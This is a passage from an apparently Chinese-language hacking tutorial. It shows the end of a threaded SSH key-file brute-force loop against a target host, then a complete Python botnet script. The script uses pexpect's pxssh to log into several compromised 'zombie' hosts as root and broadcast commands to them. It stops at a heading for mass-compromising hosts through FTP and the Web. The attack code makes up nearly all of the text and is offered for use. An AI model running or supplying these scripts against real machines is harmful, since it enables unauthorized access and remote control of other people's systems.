 ```python
        full_path = os.path.join(pass_dir, file_name)
        print("[-] Testing keyfile {}".format(full_path))
        t = threading.Thread(target=connect, args=(user, target_host, full_path, True))
        child = t.start()

if __name__ == "__main__":
    main()
```

### 构建 SSH 僵尸网络

每个单独的僵尸或者 client 都需要有能连上某台肉机，并把命令发送给肉机的能力

```python
import optparse
import pexpect.pxssh as pxssh

bot_net = list()

class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()

    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print("[-] Error Connecting")

    def send_command(self, cmd):
        self.session.sendline(cmd)
        self.session.prompt()
        return self.session.before

def bot_net_command(command):
    for client in bot_net:
        output = client.send_command(command)
        print("[*] Output from {}".format(client.host))
        print("[+] {}".format(output))

def add_client(host, user, password):
    client = Client(host, user, password)
    bot_net.append(client)

if __name__ == "__main__":
    add_client("10.10.10.110", "root", "toor")
    add_client("10.10.10.120", "root", "toor")
    add_client("10.10.10.130", "root", "toor")
    bot_net_command("uname -v")
    bot_net_command("cat /etc/issue")
```
## 利用 FTP 与 Web 批量抓 “肉机”
